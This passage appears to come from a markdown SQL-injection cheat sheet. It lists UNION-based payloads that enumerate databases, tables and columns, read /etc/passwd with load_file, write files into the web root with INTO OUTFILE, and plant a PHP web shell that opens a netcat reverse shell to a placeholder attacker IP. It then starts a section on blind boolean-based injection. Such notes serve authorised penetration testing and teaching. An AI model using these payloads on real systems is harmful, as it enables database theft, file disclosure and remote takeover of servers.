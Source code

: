```
database()
user()
version()
sqlite_version()
```


Also, interesting payloads for retrieving concatenates values in a UNION based attack:

```
## Extract database names, table names and column names

#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

And here an example of how to retrieve them:

```
# if injectable columns are number 2, 3 and 4 you can display some info from the system
union select 1, database(),user(),version(),5

# Extra bonus
# You can also load a file from the system with
union select 1, load_file(/etc/passwd),3,4,5

# and you can try to write to a file in the server
union select 1,'example example',3,4,5 into outfile '/var/www/path/to/file.txt'
union select 1,'example example',3,4,5 into outfile '/tmp/file.txt'

# and we can combine that with a reverse shell like
union select 1,'<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?>', 3,4,5 into outfile '/tmp/reverse.php'
```


## SQLi Blind attack

Firstly you need to check the application response to different requests (and/or with false true statements). If you can tell true responses from false responses and validate that the application is processing the boolean values, then you can apply this technique. For that purpose the operator AND is more valuable. 

#### Boolean based

??? example "Dictionaries"
    [https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based)
